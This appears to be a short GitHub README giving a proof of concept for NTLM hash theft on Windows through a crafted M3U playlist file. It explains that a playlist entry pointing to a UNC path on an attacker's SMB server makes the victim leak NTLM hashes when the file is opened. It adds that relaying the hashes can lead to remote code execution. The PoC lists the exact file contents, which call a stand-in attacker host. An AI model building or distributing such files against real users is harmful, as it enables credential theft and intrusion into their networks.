 # NTLM-THEFT VIA M3U FILE 

Rather than exploiting the vulnerability in Microsoft Word files or Outlook’s handling of RTF files, an attackers will take the 

advantage of "M3U file extension Audio Playlist" a  file that stands for MP3 URL, the m3u file , isn't an actual audio file in and 

of itself. 

An M3U file just points to audio (and sometimes video) files so that a media player can queue them for playback. These text-based 

files can contain URLs and/or absolute or relative pathnames to the media files and/or folders.

The attacker can then use this to inject malicious content into a “M3U” file  ex : SMB Server , so when that file  is opened, the 

target automatically leaks credentials in the form of NTLM hashes.

# NOTE:  RCE can be achieved by chaining NTLM theft with smb signing disabled using ntlm relay .




Tested on windows 7  “all player"


PoC :

#EXTM3U
#EXTINF:-1,leak_it_please

\\attacker_smb_server\ROPNOP

Save it as m3u extention.

!(https://github.com/kofa2002/NTLM-THEFT/blob/master/Screenshot%20from%202019-05-04%2008-11-15.png)


Author : Soufian El Hachmi

